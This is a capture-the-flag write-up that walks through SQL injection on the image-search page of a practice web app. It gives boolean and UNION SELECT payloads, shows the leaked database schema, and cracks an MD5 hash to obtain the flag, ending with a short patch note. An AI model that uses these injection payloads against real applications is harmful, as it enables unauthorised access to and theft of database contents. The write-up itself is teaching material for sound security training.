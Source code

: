 # [SQL_Injection](https://owasp.org/www-community/attacks/SQL_Injection)

## WriteUp
On route `index.php?page=searchimg`, there is a prompt that allows us to search for an image within the database by specifying it's ID. Entering a number between 1 and 5 displays thetitle and a url of the image.

Checking for Sql injections, we can pass the prompt `1 OR 1 = 1`. This causes all images to be displayed, meaning we can preform SQL Injections on the database. To gather data on the all the tables within the database and their columns, let use the prompt `1 OR 1 = 1 UNION SELECT table_name,column_name FROM information_schema.columns`.

This causes the webapp to render out all tables within the database and their colums, here is a simplified view:
``` ts
db = {
	"db_default": {
		"id": number,
		"username": string,
		"password": string,
	},
	"users": { // members
		"user_id": number,
		"first_name": string,
		"last_name": string,
		"town": string,
		"country": string,
		"planet": string,
		"Commentaire": string, 
		"coubtersign": string, // md5 hash
	},
	"guestbook": { //
		"id_comment": number,
		"comment": string,
		"name": string,
	},
	"list_images": { // Images
		"id": number,
		"url": string,
		"title": string,
		"comment": string,
	},
	"vote_dbs": {
		"vote": any, // I have no idea
		"nb_vote": number,
		"subject": string,
	},
}
```

Using `1 UNION SELECT title,%colunm% FROM list_images`, where `%column%` is a column in `list_images`, we can leak all the colunms for each image in `list_images`. We get the folowing image that looks interesting:
``` json
{
  "images": { 
    "id": 5,
	"url": "Hack me ?",
	"Commentaire": "If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46",
  },
}
```

Decripting the password with an [MD5 decryptor](https://md5decrypt.net/en/#answer), we get the password `albatroz`, getting the Sha256 of `albatroz` nets us the flag.

## Possible Patches
Sanitizing your input and parameterizing your input is the best way to prevent sql injections. By removing/encoding dangerous characters you can prevent injections from happening.
